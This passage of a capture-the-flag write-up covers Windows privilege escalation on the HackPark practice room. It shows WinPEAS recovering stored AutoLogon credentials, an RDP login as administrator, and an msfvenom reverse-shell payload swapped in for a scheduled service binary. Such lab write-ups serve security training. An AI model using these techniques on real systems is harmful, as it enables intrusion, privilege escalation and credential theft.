 Now that we have a stable shell, we wish to escalate privileges. Using `sysinfo` gives us some more information about the Windows machine.

<center>

![ef80725497f42f86fff2a3f0ac010f3d.png](HackPark/_resources/ef80725497f42f86fff2a3f0ac010f3d-1.png)

</center>

The room suggests feeding the output into [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) in order to determine further exploits for privilege escalation. However, this didn't seem to work for me. Instead, we'll use WinPEAS. We download the x64 exe file [from here](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) and we transfer it to the target system. Here, I switched to a Windows shell within meterpreter with `shell powershell` and used the same command we used before.

<center>

![a556bb3bcc0fd6bcf88720ab09fa4b6e.png](HackPark/_resources/a556bb3bcc0fd6bcf88720ab09fa4b6e-1.png)

</center>

We then run winPEASx64.exe. We find some AutoLogon credentials.

<center>

![b295c359179f0979ebbdecbdd843c173.png](HackPark/_resources/b295c359179f0979ebbdecbdd843c173-1.png)

</center>

We saw that port 3389 was open and serving a Microsoft Web Server. We can use this to connect to the machine as administrator. Open a new terminal and use the command `xfreerdp /tls-seclevel:0 /u:Administrator /p:<password> /v:10.10.0.19`.

(Note: I had issues connecting to the Windows machine via RDP; a bit of Googling suggested modifying the tls-seclevel parameter. The above parameter worked for me, although I'm not sure why.)

After RDPing into the machine, we have root access. The root flag is found on the desktop.

<center>

![e0b4da138dfc97dec15f63bb7e4141cc.png](HackPark/_resources/e0b4da138dfc97dec15f63bb7e4141cc-1.png)

</center>

Similarly, we can navigate to Jeff's desktop to obtain his flag.

<center>

![b7a8c407998e463c4527ee3e432c1a3c.png](HackPark/_resources/b7a8c407998e463c4527ee3e432c1a3c-1.png)

</center>

Alternatively, we can follow the intended path given in Task 4 of the room. Sifting through the winPEAS output, we eventually find an abnormal service running on the Windows machine.

<center>

![6b5ec3c6fd6524ee0e3fcd0fa2f10dae.png](HackPark/_resources/6b5ec3c6fd6524ee0e3fcd0fa2f10dae-1.png)

</center>

It seems that something is happening with the Windows Scheduler service. We caught a glimpse of this when we RDP'd into the machine; every minute or so, a strange message pops up. Within our netcat session, we navigate to `C:\Program Files (x86)\SystemScheduler` and run `tasklist /v` to see a list of currently running tasks. We note that the file `Message.exe` seems to be sheduled.

<center>

![47cc8dde9b28889cfdc4f0f59e13b6a7.png](HackPark/_resources/47cc8dde9b28889cfdc4f0f59e13b6a7-1.png)

</center>

Our goal is to replace this file with our msfvenom payload in order to spawn a reverse shell. We use the same command as before to generate the payload, making sure to use a different port this time.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.30.43 LPORT=9998 -f exe -o Message.exe 
```

Now repeat the steps from the previous task by setting up a Metasploit handler: Delete the old Message.exe file with `del /f Message.exe`, upload the new Message.exe payload to the target system, and wait for the task to execute. Since the system scheduler runs with admin privileges, this gives us a reverse shell with elevated privileges which we can use to access the two needed flags. Now we can navigate to the relevant folders within the meterpreter shell to find the flags.

<center>

![cf3e3caf2dcae4113c340614d619b940.png](/HackPark/_resources/cf3e3caf2dcae4113c340614d619b940-1.png)

![5388252d3f95cf1883f78afa49146da9.png](/HackPark/_resources/5388252d3f95cf1883f78afa49146da9-1.png)

</center>

To finish the room, we just need to find the original install time. This type of information can be found in the winPEAS output. The correct date and time turns out to be the same as the last time the Administrator's password was reset.

<center>

![06e783f7ae4b055418e0574d50c22ff6.png](/HackPark/_resources/06e783f7ae4b055418e0574d50c22ff6-1.png)

</center>